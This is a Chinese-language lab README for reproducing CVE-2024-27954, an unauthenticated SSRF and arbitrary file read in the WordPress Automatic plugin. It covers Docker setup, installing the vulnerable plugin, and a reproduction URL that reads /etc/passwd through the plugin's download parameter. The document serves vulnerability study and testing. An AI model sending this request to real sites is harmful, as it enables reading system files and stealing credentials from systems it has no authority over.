



# CVE-2024-27954 WordPress Automatic插件 SSRF与任意文件读取漏洞

​	WordPress Automatic 插件<3.92.1易受未经验证的任意文件下载和SSRF的攻击。位于downloader.php文件中，可能允许攻击者从网站访问任何文件。敏感数据，包括登录凭据和备份文件。此漏洞已在3.92.1版本中修补。

参考链接

- https://blog.csdn.net/shelter1234567/article/details/139233330

- https://nvd.nist.gov/vuln/detail/CVE-2024-27954
- https://github.com/truonghuuphuc/CVE-2024-27956/blob/main/wp-automatic.zip


## 漏洞环境

执行如下命令启动一个wordpress-web服务器：

```
docker compose up 
```

服务启动后，可访问`http://your-ip:80/`将自动跳转到wordpress安装向导界面

wordpress安装参考本项目的https://github.com/Shelter1234/VulneraLab/blob/main/WordPress/Bricks/CVE-2024-25600/README.zh-cn.md

安装automatic



进入后台Plugins - Add New Plugins 上传wp-automatic.zip文件安装，安装后点击Activate激活插件




## 漏洞复现

发起如下url

192.168.160.128/?p=3232&wp_automatic=download&link=file:///etc/passwd

